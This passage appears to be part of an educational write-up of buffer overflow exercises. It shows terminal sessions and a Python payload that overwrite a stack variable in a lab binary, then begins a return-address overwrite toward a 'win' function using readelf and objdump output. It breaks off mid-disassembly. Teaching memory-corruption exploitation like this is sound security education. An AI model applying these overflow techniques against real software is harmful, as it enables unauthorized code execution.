 ```
$ ./overflow1
Please enter your name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
4þ!
x == 4141414141414141
```
If we choose an even longer input, the program crashes, but that is not
interesting for this exercise.

After trying a bit around, we can see that `x` is changed when we send more
than `0x28 = 40` bytes.
This tells us that the variable `x` is located `0x28 = 40` bytes after the
start of the buffer `name`.

<details><summary>Alternative way to find the offset</summary></details>

Now that we now the offset of `x`, we can overwrite it with the required value
`0x1337`.
Since `x` is a 64 bit integer and the architecture is little endian, this
corresponds to the byte sequence `b'\x37\x13\x00\x00\x00\x00\x00\x00'`
(for convenience, we can use the Python function `struct.pack('<Q', 0x1337)` to
obtain this).
```
$ python -c "import os, struct; os.write(1, b'A'*0x28 + struct.pack('<Q', 0x1337))" | ./overflow1 
Please enter your name: Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA7!
x == 1337
Success!
```


### Part 2: Changing the Control Flow


Now we have to overwrite the return address with the address of the function
`win`.
The program tells us the right address.
```
$ ./overflow2
win is located at 0x401156
Please enter your name: 
```
Alternatively, we can also look up the symbol in the binary, e.g., with
```
$ readelf -s overflow2 | grep win
    40: 0000000000401156    22 FUNC    GLOBAL DEFAULT   14 win
```

By looking at the disassembly of the function `vuln`, we find that the buffer
`name` is located at `[rbp-0x20]`.
```
$ objdump -M intel -d overflow2
[...]
000000000040116c <vuln>:
  40116c:       55                      push   rbp
  40116d:       48 89 e5                mov    rbp,rsp
  401170:       48 83 ec 20             sub    rsp,0x20
  401174:       48 8d 05 db ff ff ff    lea    rax,[rip+0xffffffffffffffdb]        # 401156 <win>
  40117b:       48 89 c6                mov    rsi,rax
  40117e:       48 8d 05 88 0e 00 00    lea    rax,[rip+0xe88]        # 40200d <_IO_stdin_used+0xd>
  401185:       48 89 c7                mov    rdi,rax
  401188:       b8 00 00 00 00          mov    eax,0x0
  40118d:       e8 be fe ff ff          call   401050 <printf@plt>
  401192:       48 8d 05 8a 0e 00 00    lea    rax,[rip+0xe8a]        # 402023 <_IO_stdin_used+0x23>
  401199:       48 89 c7                mov    rdi,rax
  40119c:       b8 00 00 00 00          mov    eax,0x0
  4011a1:       e8 aa fe ff ff          call   401050 <printf@plt>
```